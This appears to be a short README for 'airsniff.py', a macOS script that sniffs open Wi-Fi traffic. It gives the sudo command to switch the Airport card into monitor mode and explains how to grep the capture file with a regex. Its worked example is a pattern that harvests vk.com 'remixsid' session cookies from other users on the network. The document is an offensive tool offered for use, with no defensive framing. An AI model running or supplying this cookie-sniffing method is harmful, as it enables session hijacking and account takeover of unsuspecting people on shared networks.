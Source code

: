 This is quite simple script. You can do all this stuff manually without the script.

It use built-in Airport Extreme card for grab your pattern from wireless traffic.

It can be used **only in open Wi-Fi network**.

#### What it doing: 

* Swith Airport card into monitor mode on selected channel.
```sudo "/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport" en0 sniff 10```
Where en0 - Aiport card, 10 - channel. It will write dump in .cap file localted in /tmp/.

To find which channel use your network hold ```Alt``` and click on wifi icon:

![CHANNEL](http://cdn.zhovner.com/forever/wifi_channel.png)

* Match your regexp in .cap file in cycle and exclude duplicates strings.

#### Usage:

```sudo airsniff.py <channell> <\"pattern\">````

 **channell** — wifi channel

 **\"pattern\"** — regexp that will grep /tmp/*.cap file. Quotes and backslashes required!

Example for vk.com:

```airsniff.py 10 \"remixsid=[a-z0-9]{68}\"```

